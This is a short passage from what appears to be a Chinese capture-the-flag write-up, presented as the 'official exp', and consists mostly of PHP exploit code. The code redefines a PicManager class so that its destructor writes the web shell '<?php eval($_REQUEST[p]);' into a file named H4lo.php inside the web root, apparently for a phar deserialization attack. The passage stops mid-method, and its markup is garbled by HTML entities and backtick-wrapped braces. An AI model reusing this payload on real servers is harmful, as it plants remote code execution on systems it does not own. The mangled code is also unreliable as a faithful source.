 [https://cloud.tencent.com/developer/article/1350367](https://cloud.tencent.com/developer/article/1350367)

直接放官方的 exp 吧：

```
&lt;?php

 class PicManager`{`
     private $current_dir;
     private $whitelist=['jpg','png','gif'];
     private $logfile='request.log';
     private $actions=[];

     public function __construct($dir)`{`
         $this-&gt;current_dir=$dir;
         if(!is_dir($dir))@mkdir($dir);
     `}`

     private function _log($message)`{`
         array_push($this-&gt;actions,'['.date('y-m-d h:i:s',time()).']'.$message);
     `}`

     public function pics()`{`
         log('list pics');
         $pics=[];
         foreach(scandir($dir) as $item)`{`
             if(in_array(substr($item,-4),$whitelist))
                 array_push($pics,$current_dir."/".$item);
         `}`
         return $pics;
     `}`
     public function upload_pic()`{`
         _log('upload pic');
         $file=$_FILES['file']['name'];
         if(!in_array(substr($file,-4),$this-&gt;whitelist))`{`
             _log('unsafe deal:upload filename '.$file);
             return;
         `}`
         $newname=md5($file).substr($file,-4);
         move_uploaded_file($_FILES['file']['tmp_name'],$current_dir.'/'.$newname);
     `}`
     public function get_pic($picname)`{`
         _log('get pic'.$picname);
         if(!file_exists($picname))
             return '';
         else return file_get_contents($picname);
     `}`
     public function __destruct()`{`
         $fp=fopen($this-&gt;current_dir.'/'.$this-&gt;logfile,"a+");
         foreach($this-&gt;actions as $act)`{`
             fwrite($fp,$act."n");
         `}`
         fclose($fp);
     `}`

     public function gen()`{`
         @rmdir($this-&gt;current_dir);
         $this-&gt;current_dir="/var/www/html/sandbox/a6bfb20ba19df73fcceb438f5f75948f/"; //md5($_SERVER['REMOTE_ADDR'])
         $this-&gt;logfile='H4lo.php';
         $this-&gt;actions=['&lt;?php eval($_REQUEST[p]);'];
         @unlink('phar.phar');


```